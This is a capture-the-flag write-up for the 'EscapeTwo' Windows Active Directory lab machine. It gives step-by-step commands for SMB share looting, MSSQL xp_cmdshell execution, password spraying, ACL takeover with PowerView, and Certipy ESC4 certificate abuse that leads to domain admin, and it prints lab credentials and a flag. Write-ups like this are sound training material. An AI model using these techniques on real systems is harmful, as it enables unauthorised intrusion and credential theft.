# HTB - EscapeTwo

**IP Address:** `10.129.232.128`  
**OS:** Windows Server 2019 (Active Directory Domain Controller)  
**Difficulty:** Easy  
**Tags:** #AD #SMB #MSSQL #PowerView #ADCS #Certipy #ESC4 #WinRM

---
## Synopsis

EscapeTwo is an easy Windows AD chain where initial provided credentials (`rose`) allow SMB share access and retrieval of a corrupted Excel file containing domain and SQL credentials. Valid SMB users from that file (e.g. `oscar`) can enumerate the rest of the domain via **RPC** (`enumdomusers`); merging those names with the Excel accounts builds a **`users.txt`** suitable for spraying. After gaining SQL `sa` access on MSSQL and executing commands as `sql_svc`, reading SQL setup artifacts leaks **`SQLSVCPASSWORD`**, which **reuses** onto the domain user **`ryan`** for **WinRM**—a hit you only see once **`ryan` is in the spray list** (he does not appear in the recovered spreadsheet). From `ryan`, we abuse ACL rights over `ca_svc`, reset its password, and then exploit a vulnerable ADCS template (`DunderMifflinAuthentication`) with Certipy to request a certificate as `administrator`, recover the admin hash, and obtain full domain compromise.

---
## Skills Required

- Basic AD service enumeration (`nmap`, SMB, LDAP)  
- SMB share navigation and file extraction  
- **`rpcclient`** (or similar) for **`enumdomusers`** with valid domain credentials  
- Basic MSSQL interaction with Impacket  
- PowerShell/PowerView ACL abuse fundamentals  
- Basic ADCS/Certipy exploitation workflow

## Skills Learned

- Recovering data from corrupted `.xlsx` by parsing internal XML  
- Domain user discovery with **`rpcclient`** + **`enumdomusers`** (credentialed RPC) to complement share-derived user lists  
- MSSQL abuse with `sa` + volatile `xp_cmdshell` handling  
- Credential pivoting from SQL setup configuration files  
- AD object takeover via `WriteOwner` -> ACL modification -> password reset  
- ADCS template abuse (ESC4 -> ESC1-style request flow) to impersonate Administrator

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.232.128
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.232.128 -oG allPorts
extractPorts allPorts
```




Open ports:

`53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,47001,49664,49665,49666,49667,49693,49694,49695,49710,49723,49733,49796`

---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,47001,49664,49665,49666,49667,49693,49694,49695,49710,49723,49733,49796 10.129.232.128 -oN targeted
cat targeted
```




Key findings:
- Domain: `sequel.htb`
- Host: `DC01`
- MSSQL exposed on `1433`
- WinRM exposed on `5985`

---
### 1.4 LDAP root DSE (domain naming)

Anonymous **LDAP** on **389/tcp** confirms the **DN** of the forest (useful before RPC/LDAP binds with domain credentials):

```bash
ldapsearch -x -H ldap://10.129.232.128 -s base -b "" namingContexts
```



---
## 2. Service Enumeration

### 2.1 Anonymous vs credentialed SMB

Anonymous checks showed restricted/null behavior:

```bash
crackmapexec smb 10.129.232.128
smbclient -L //10.129.232.128 -N
smbmap -u 'guest' -p '' -H 10.129.232.128
```





Additional null-session probes (anonymous login may succeed while **listing shares** or **paths** still fails):

```bash
smbclient //10.129.232.128/Public -N -m SMB3 -c "ls"
smbclient //10.129.232.128/NETLOGON -N -m SMB3 -c "ls"
smbclient //10.129.232.128/SYSVOL -N -m SMB3 -c "ls"
smbclient //10.129.232.128/IPC$ -N -m SMB3 -c "ls"
crackmapexec smb 10.129.232.128 -u '' -p '' --shares
rpcclient -U '' -N 10.129.232.128 -c 'netshareenumall'
```





With provided credentials `rose:KxEPkKe6R8su`, share enumeration succeeds:

```bash
crackmapexec smb 10.129.232.128 -u rose -p 'KxEPkKe6R8su' --shares
```



Interesting shares include **`Users`** and **`Accounting Department`** (among others).

---
### 2.2 `Users` share (optional browse)

With **`rose`**, the **`Users`** share is readable; browsing confirms SMB access beyond null session (profile layout under `Default`, etc.):

```bash
smbclient //10.129.232.128/Users -U 'rose' -p 'KxEPkKe6R8su'
```



---
### 2.3 Corrupted Excel recovery

From **`Accounting Department`**:

```bash
smbclient //10.129.232.128/Accounting\ Department -U 'rose' -p 'KxEPkKe6R8su'
# get accounts.xlsx
# get accounting_2024.xlsx
```



`accounts.xlsx` is corrupted but recoverable:

```bash
7z x accounts.xlsx -oaccounts_unpacked -y
sed -n '1,120p' accounts_unpacked/xl/worksheets/sheet1.xml
sed -n '1,80p' accounts_unpacked/xl/sharedStrings.xml
```




Recovered credentials:

| Username | Password           |
| -------- | ------------------ |
| angela   | `0fwz7Q4mSpurIt99` |
| oscar    | `86LxLBMgEWaKUnBG` |
| kevin    | `Md9Wlq1E5bZnVDVo` |
| sa       | `MSSQLP@ssw0rd!`   |

Plus HTB-provided **`rose`** (not in the sheet above).

---
### 2.4 Domain users via RPC (`users.txt` for sprays)

The workbook only names **angela**, **oscar**, **kevin**, and **sa**. Probably there are more users, so, let's try to enumerate users and groups with rpcclient:

With **`oscar`** (or any valid domain SMB user from the sheet), list SAM accounts over SMB RPC:

```bash
rpcclient -U 'sequel\oscar' //10.129.232.128
# enumdomusers
# enumdomgroups
```



Build **`users.txt`** with one username per line: merge **spreadsheet + HTB `rose`** with **`enumdomusers`** results (you can skip built-ins like **Guest** / **krbtgt** if you want a shorter list). Example:

```text
rose
angela
oscar
kevin
sa
michael
ryan
sql_svc
ca_svc
```

That list is what makes the **`SQLSVCPASSWORD`** spray meaningful: the password from the SQL installer is reused for **`ryan`**, which shows up as **`[+] ...\ryan:...`** on **WinRM**, not from the Excel rows alone.

---
## 3. Foothold

`oscar` works for SMB but not WinRM.  
`sa` works on MSSQL (SQL auth, no `-windows-auth`):

```bash
impacket-mssqlclient sequel.htb/'sa:MSSQLP@ssw0rd!'@10.129.232.128
```

Enable and use `xp_cmdshell`:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```



Execution context:
- `sequel\sql_svc`

Read SQL setup configuration:

```sql
EXEC xp_cmdshell 'type C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI';
```



Important leak:
- `SQLSVCPASSWORD="WqSZAF6CysDQbGb3"` (install-time password for **`SEQUEL\sql_svc`**; also reused elsewhere—see WinRM below)

Spray that password against **`users.txt`** from **§2.4** (must include **`ryan`** and other domain accounts from **`enumdomusers`**, not only the Excel file):

```bash
crackmapexec smb 10.129.232.128 -u users.txt -p 'WqSZAF6CysDQbGb3' --continue-on-success
crackmapexec winrm 10.129.232.128 -u users.txt -p 'WqSZAF6CysDQbGb3' --continue-on-success
```



Expect **WinRM** success for **`ryan`** (SMB may still fail for that pair depending on rights). Shell:

```bash
evil-winrm -i 10.129.232.128 -u ryan -p 'WqSZAF6CysDQbGb3'
# whoami
# cd ../Desktop
# ls
# cat user.txt
```



🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Take control of `ca_svc` from `ryan`

Using PowerView in WinRM session:

```powershell
upload PowerView.ps1
Set-ExecutionPolicy Bypass -Scope Process -Force
. .\PowerView.ps1
$target = "CN=Certification Authority,CN=Users,DC=sequel,DC=htb"
Set-DomainObjectOwner -Identity $target -OwnerIdentity "ryan"
Add-DomainObjectAcl -TargetIdentity $target -PrincipalIdentity "ryan" -Rights All
$new = ConvertTo-SecureString "TempPass2026!" -AsPlainText -Force
Set-DomainUserPassword -Identity "ca_svc" -AccountPassword $new
```

Use the **same** plaintext string in validation and in **Certipy** below (replace `TempPass2026!` everywhere if you pick another password).

Validate:

```bash
crackmapexec smb 10.129.232.128 -u ca_svc -p 'TempPass2026!'
```



---
### 4.2 ADCS template abuse with Certipy

Enumerate templates:

```bash
certipy-ad find -u 'ca_svc@sequel.htb' -p 'TempPass2026!' -dc-ip 10.129.232.128 -stdout
```



Target template:
- `DunderMifflinAuthentication` (`ESC4`)

Apply vulnerable default configuration (Certipy v5 syntax):

```bash
certipy-ad template \
  -u 'ca_svc@sequel.htb' -p 'TempPass2026!' \
  -template 'DunderMifflinAuthentication' \
  -write-default-configuration \
  -dc-ip 10.129.232.128 \
  -target 'dc01.sequel.htb' \
  -dc-host 'dc01.sequel.htb'
```

Request certificate as Administrator:

```bash
certipy-ad req \
  -u 'ca_svc@sequel.htb' -p 'TempPass2026!' \
  -ca 'sequel-DC01-CA' \
  -template 'DunderMifflinAuthentication' \
  -target 'dc01.sequel.htb' \
  -upn 'administrator@sequel.htb' \
  -dc-ip 10.129.232.128
```



Authenticate with generated PFX:

```bash
certipy-ad auth -pfx administrator.pfx -domain sequel.htb -dc-ip 10.129.232.128
```



Use returned Administrator hash:

```bash
evil-winrm -i 10.129.232.128 -u Administrator -H '<NT_HASH>'
```



Retrieve root flag from:
- `C:\Users\Administrator\Desktop\root.txt`

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **SMB with `rose`** → Accounting share and corrupted Excel; recovered SQL and departmental user passwords.
2. **LDAP root DSE** → confirm **`sequel.htb`**; **`rpcclient` / `enumdomusers` as `oscar`** → full domain username set; **`users.txt`** = Excel + `rose` + enumerated accounts (**`ryan`**, **`sql_svc`**, **`ca_svc`**, etc.).
3. **MSSQL `sa`** → `xp_cmdshell` as `sql_svc`; read **`sql-Configuration.INI`** → **`SQLSVCPASSWORD`** reused by **`ryan`** on **WinRM** (visible only when **`ryan` is in the spray list**).
4. **WinRM as `ryan`** → user flag; abused ACLs on the CA object and reset `ca_svc`.
5. **Certipy ESC4 / template** → certificate as `administrator@sequel.htb`; pass-the-hash and **Domain Admin**.

**Artifacts (internal):** initial `rose` / `KxEPkKe6R8su`; Excel users; RPC user list; `sa` / `MSSQLP@ssw0rd!`; SQL setup password → `ryan`; `ca_svc` after reset; Administrator hash from Certipy.

- **User flag:** `d9630bb88b8d3b5964c88dd375516b08`
- **Root:** retrieved as `Administrator` (hash omitted here).

---
## Defensive Recommendations

- Avoid credential reuse across SQL service accounts and domain users; rotate leaked setup passwords.
- Harden ADCS templates and CA ACLs; monitor **Certipy**-style template modification and enrollment.
- Restrict SMB share contents; treat Office archives as sensitive data stores.
- Enable logging for WinRM, MSSQL `xp_cmdshell`, and certificate enrollment.
